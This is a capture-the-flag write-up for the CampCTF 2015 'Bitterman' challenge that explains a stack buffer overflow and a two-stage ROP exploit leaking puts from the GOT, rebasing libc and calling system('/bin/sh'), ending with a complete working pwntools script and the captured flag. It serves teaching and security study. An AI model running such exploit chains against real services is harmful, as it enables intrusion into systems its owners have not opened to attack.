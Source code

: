 ```yaml
---
layout: post
title:  "CampCTF Bitterman"
date:   2015-08-18 18:03:59
categories: CTF Pwnable
---
```

Upon connecting, we are given a prompt which asks for the following items:

* Name
* Length of a message
* The message itself

As per normal, let's try the low hanging fruit of throwing lots of data at each field to see if we get a crash.

Turns out, if we say that we will send 1024 bytes and send 1024 bytes, we crash *shrug* (If there is time after the CTF, I'll go back and see what exactly caused the crash)

## Exploit

Because NX is turned on, we need to do some fancy ROP. Our ROP strategy is below:

* Leak a libc address via ROPing to `puts()` with `puts` as the parameter. 
    - This will return the address of `puts` in the libc the binary is using. 
    - We can calculate the libc base address since we were given their libc in the problem (leaked_libc_read_address - original_libc_from_challenge = base_libc_on_server)
* Call main so we can re-exploit with the knowledge of the libc base address.

This ROP construction is here:

```python
from pwn import *

elf = ELF('./bitterman')
rop = ROP(elf)

rop.puts(elf.got['puts'])
rop.call(elf.symbols['main'])

print rop.dump()
```

Leaking the address from this ROP chain and rebasing the libc address in pwntools is below:

```python
# Be sure to add the zeros that we miss due to string read
# Grab the first 8 bytes of our output buffer
leaked_puts = r.recv()[:8].strip().ljust(8, '\x00')

# Convert to integer
leaked_puts = struct.unpack('Q', leaked_puts)[0]

# Rebase libc to the leaked offset
libc.address = leaked_puts - libc.symbols['puts']
```

From here, we can create a second ROP which will simply call `system` with `/bin/sh`. Luckily, `/bin/sh` is in libc, so we simply find where that string is, and call `system` with it.

The second ROP construction is below:

```python
# Create new ROP object with rebased libc
rop2 = ROP(libc)

# Call system('/bin/sh')
rop2.system(next(libc.search('/bin/sh\x00')))

print rop2.dump()
```

Our shell is received and the flag is given:

```python
$ ls
bitterman
flag.txt
run.sh
$ cat flag.txt
CAMP15_a786be6aca70bfd19b6af86133991f80
```

## Final Exploit

```python

from pwn import *
import struct
context(arch='amd64')

r = process('./bitterman')
# r = remote('challs.campctf.ccc.ac','10103')

elf = ELF('./bitterman')
libc = ELF('libc.so.6')
# libc = ELF('libc-2.19.so')
rop = ROP(elf)

"""
gdb.attach(r, '''
bp 0x400704
''')
"""

print r.recv()

# raw_input()
### Stack address leaked when filling the name buffer to its max (64 bytes)
# r.sendline('a' * 64)
# leak = r.recv().split()[1][64:72]
r.sendline('')
r.recv()

r.sendline('1024')

####
# Leak read from GOT
# Call main to rethrow exploit with magic libc gadget
###
rop.puts(elf.got['puts'])
rop.call(elf.symbols['main'])

log.info("ROP 1 - read( puts() from GOT); call main")
print rop.dump()

"""
RIP  0x4007e1 (main+245) <-- ret
[-------------------------------CODE-------------------------------]
=> 0x4007e1 <main+245>    ret    
[------------------------------STACK-------------------------------]
00:0000| rsp  0x7fffffffdaf8 <-- 'naaboaabpaabqaa...'
"""

shellcode = 'B' * (cyclic_find(unhex('6261616f')[::-1]) - 4)
# shellcode = 'B' * (cyclic_find('oaab') - 4)
shellcode += str(rop)

r.clean()
r.sendline(shellcode)

r.recvuntil('Thanks!')

log.info("Sending stage two")

# Be sure to add the zeros that we miss due to string read
leaked_puts = r.recv()[:8].strip().ljust(8, '\x00')
log.info("Leak: {}".format(repr(leaked_puts)))
leaked_puts = struct.unpack('Q', leaked_puts)[0]

# Reset libc to the leaked offset
libc.address = leaked_puts - libc.symbols['puts']
log.info('Libc address: {}'.format(hex(libc.address)))

# Create new ROP object with rebased libc
rop2 = ROP(libc)

# Call system('/bin/sh')
rop2.system(next(libc.search('/bin/sh\x00')))

log.info("ROP 2:")
print rop2.dump()

r.clean()
raw_input('name')
r.sendline('')
raw_input('length')
r.sendline('1024')

shellcode = 'B' * (cyclic_find(unhex('6261616f')[::-1]) - 4)
shellcode += str(rop2)

raw_input('send?')
r.sendline(shellcode)

r.interactive()
```
